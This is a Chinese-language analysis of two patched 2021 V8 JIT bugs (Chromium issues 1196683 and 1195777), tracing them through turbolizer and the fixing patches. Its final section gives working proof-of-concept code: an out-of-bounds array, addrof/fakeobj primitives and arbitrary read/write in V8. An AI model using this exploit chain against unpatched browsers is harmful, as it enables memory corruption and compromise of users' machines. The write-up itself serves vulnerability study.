以下是对2021年chrome的issue-1196683和issue-1195777进行的粗略的分析（主要是对v8没有那么的熟悉）

## 环境搭建

编译一个8.x版本的v8（反正找一个2021年4月份前的），还需要准备好turbolizer：

```c
cd tools/turbolizer
npm i
npm run-script build
python -m SimpleHTTPServer
```

接着在浏览器访问：http://127.0.0.1:8000/  就可以看到turbolizer了 

## issue-1196683

相关链接：https://chromium-review.googlesource.com/c/v8/v8/+/2820971

我们稍微改改其提供的[regress-1196683.js](https://chromium-review.googlesource.com/c/v8/v8/+/2820971/3/test/mjsunit/compiler/regress-1196683.js) :

```javascript
const arr = new Uint32Array([2**31]);
function foo() {
  return (arr[0] ^ 0) + 1;
}
console.log(foo());
for(var i = 0;i < 100000;i++)
  foo();
console.log(foo());
```

运行一下：

```cpp
>./d8 issue-1196683.js
-2147483647
2147483649
```

正常情况下结果应该是`-2147483647`，但是其在生成优化代码后变成了`2147483649`

用turbolizer来看看优化过程，先生成其json文件：

```cpp
./d8 issue-1196683.js --trace-turbo
```

用turbolizer打开生成的json文件（turbo-foo-0.json）

### TyperPhase



点箭头标记的那个三角，可以显示出与该异或操作相关的节点（30），其输入的两个节点为常数0（节点22）和arr[0]（节点44）

### SimplifiedLoweringPhase



在`SimplifiedLowering`阶段，原先在`Typer`阶段的结点30：`SpeculativeNumberBitwiseXor`被优化成了`Word32Xor`节点，而且与patch相关的`ChangeInt32ToInt64`节点也出现了，[patch](https://chromium-review.googlesource.com/c/v8/v8/+/2820971/3/src/compiler/backend/x64/instruction-selector-x64.cc)：



### EarlyOptimizationPhase



到了`EarlyOptimization`阶段，原本的`Word32Xor`节点已经被Reduce了，导致原本`ChangeInt32ToInt64`节点的输入类型由原本的`Signed32`（见SimplifiedLoweringPhase）变成了`Unsigned32`，和这里的逻辑相关的代码为：

```cpp
template <typename WordNAdapter>
Reduction MachineOperatorReducer::ReduceWordNXor(Node* node) {
  using A = WordNAdapter;
  A a(this);

  typename A::IntNBinopMatcher m(node);
  if (m.right().Is(0)) return Replace(m.left().node());  // x ^ 0 => x
  if (m.IsFoldable()) {  // K ^ K => K  (K stands for arbitrary constants)
    return a.ReplaceIntN(m.left().ResolvedValue() ^ m.right().ResolvedValue());
  }
  if (m.LeftEqualsRight()) return ReplaceInt32(0);  // x ^ x => 0
  if (A::IsWordNXor(m.left()) && m.right().Is(-1)) {
    typename A::IntNBinopMatcher mleft(m.left().node());
    if (mleft.right().Is(-1)) {  // (x ^ -1) ^ -1 => x
      return Replace(mleft.left().node());
    }
  }

  return a.TryMatchWordNRor(node);
}
```

我们的情况真好是 x^0 , 所以用左边节点来替换当前节点，导致了类型由`Signed32`变成了`Unsigned32`

### schedule



再到register allocation：

### register allocation



imm:20 的值为1，红框对应的就是我们js代码中的 （arr[0] ^ 0 + 1）

这里应该是对应了patch中的指令选择阶段，我们的输入类型由于是`Unsigned32`，所以在指令选择阶段选择了`kX64Movl`指令，而不是会做符号拓展的`kX64Movsxlq`指令，导致结果变成了无符号的`0x80000000+1`也就是2147483649

我们还可以调试一下，给代码加一个断点：

```javascript
const arr = new Uint32Array([2**31]);
function foo() {
  return (arr[0] ^ 0) + 1;
}
console.log(foo());
for(var i = 0;i < 100000;i++)
  foo();
%SystemBreak();
console.log(foo());
```

加一个`--print-opt-code`来确定优化代码的位置并下断点：

```cpp
pwndbg> r --allow-natives-syntax --print-opt-code ./issue-1196683.js 
```

下好断点跳过去查看：



后续的`add rcx,1` 也就是我们的返回结果了

## issue-1195777

相关链接：https://chromium-review.googlesource.com/c/v8/v8/+/2826114

我们稍微改改其提供的[regress-1195777.js](https://chromium-review.googlesource.com/c/v8/v8/+/2826114/3/test/mjsunit/compiler/regress-1195777.js) :

```javascript
function foo(b){
    let x = -1;
    if(b){
        x = 0xFFFF_FFFF;
    }
    return -1 < Math.max(0, x, -1);
}
console.log(foo(true));
for(var i = 0;i < 100000;i++)
    foo(false);
console.log(foo(false));
console.log(foo(true));
```

运行之后：

```cpp
>./d8 issue-1195777.js
true
true
false
```

可以看到在优化后，返回了一个错误的false，关键逻辑是在` -1 < Math.max(0, x, -1)`，用turbolizer来查看其优化过程

### TyperPhase


这是与`-1 < Math.max(0,x,-1)`相关的节点

### TypeLoweringPhase



原本的53和56节点被替换成常数0（节点31）和-1（节点13）

### SimplifiedLoweringPhase



到了`SimplifiedLowering`阶段，`NumberMax`节点被替换成了`Int64LessThan` 和`Selec`节点，`SpeculativeNumberLessThan`被替换成了`Int32LessThan`；还可以看到最后生成了`TruncateInt64ToInt32`节点，该节点就是漏洞触发的地方，我们查看[patch](https://chromium-review.googlesource.com/c/v8/v8/+/2826114/3/src/compiler/representation-change.cc#b955)：



但是调试的时候无法断到此处，先留个坑在这。。。

`Math.max(0, x, -1)`的结果被truncate成了Signed32，导致会计算出错误的结果

## 漏洞利用

经过上面的分析，这两个漏洞都能使我们获得一个错误的值为1的变量。通过分析在野利用的exp，利用步骤为：

- 用该错误的变量作为长度创建一个Array
- 通过`Array.prototype.shift`来使上一步创建的Array的长度变成0xFFFFFFFF

第二步的利用方法在4月份的时候也被谷歌修了：https://chromium.googlesource.com/v8/v8/+/d4aafa4022b718596b3deadcc3cdcb9209896154

poc1:

```javascript
function foo() {
	var x = (_arr[0] ^ 0) + 1;
	x = Math.abs(x);
	x -= 0x7fffffff;
	x = Math.max(x, 0);
	x -= 1;
	if(x==-1) x = 0;
	var arr = new Array(x);
    arr.shift();
    let a = [1.1,2.2,3.3]; 
    return [arr,a];
}

for(var i = 0;i < 100000;i++)
    foo(false);
// gc();gc();
var [oob_arr,corrupt_arr] = foo(true);
console.log(oob_arr.length);			// -1
```

poc2：

```javascript
// use issue-1195777
function foo(flag){
    let x = -1;
    if(flag){
        x = 0xFFFF_FFFF;
    }
    x = Math.sign(0 - Math.max(0,x,-1));
    var arr = new Array(x);
    arr.shift();
    let a = [1.1,2.2,3.3]; 
    return [arr,a];
}
for(var i = 0;i < 100000;i++)
    foo(false);
var [oob_arr,corrupt_arr] = foo(true);
console.log(oob_arr.length);			// -1
```

可以看下其生成的优化代码：



有两处对长度的赋值，分别对应`flag == true` 和 `flag == false` ，第二处的赋值直接把0xfffffffe（Int32(0xffffffff << 1)）赋值给长度，所以我们能得到一个长度为-1的数组，具体为啥会这样还得等后面熟悉了再回头看看。。。

后续步骤：

- 修改corrupt_arr的length
- 利用oob_arr和corrupt_arr来构造addrof和fakeobj原语
- 泄露出corrupt_arr的map
- 申请一个FixedDoubleArray对象A，布置好其内容（为下一步伪造对象做准备）
- 利用fakeobj原语fake一个FixedDoubleArray对象B
- 利用对象A和B实现任意地址读写

具体代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Int32Array(buf);
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}

function gc() {
    for (var i = 0; i < 0x80000; ++i) {
        var a = new ArrayBuffer();
    }
}

function foo(flag){
    let x = -1;
    if(flag){
        x = 0xFFFF_FFFF;
    }
    x = Math.sign(0 - Math.max(0,x,-1));
    var arr = new Array(x);
    arr.shift();
    let a = [1.1,2.2,3.3]; 
    return [arr,a];
}

for(var i = 0;i < 100000;i++)
    foo(false);
gc();gc();
var [oob_arr,corrupt_arr] = foo(true);
// %DebugPrint(oob_arr);
// %DebugPrint(corrupt_arr);
var idx = 6;
oob_arr[10+idx] = 0x8888;						// modify corrupt_arr.length to a big value

function addrof(k) {
    oob_arr[idx+1] = k;
    return f2i(corrupt_arr[0]) & 0xffffffffn;
}

function fakeobj(k) {
    corrupt_arr[0] = i2f(k);
    return oob_arr[idx+1];
}

var float_array_map = f2i(corrupt_arr[3]);		// leak corrupt_arr's map

var arr2 = [i2f(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);		// fake a FixedDoubleArray obj

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = i2f((2n << 32n) + addr - 8n);        // set fake's length and elements
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = i2f((2n << 32n) + addr - 8n);        // set fake's length and elements
    fake[0] = i2f(BigInt(val));
}
```

调试的时候注意有指针压缩

## 参考链接

https://iamelli0t.github.io/2021/04/20/Chromium-Issue-1196683-1195777.html

https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/#control-edges

https://github.com/r4j0x00/exploits/blob/master/chrome-0day/exploit.js

https://chromium-review.googlesource.com/c/v8/v8/+/2820971

https://chromium-review.googlesource.com/c/v8/v8/+/2826114

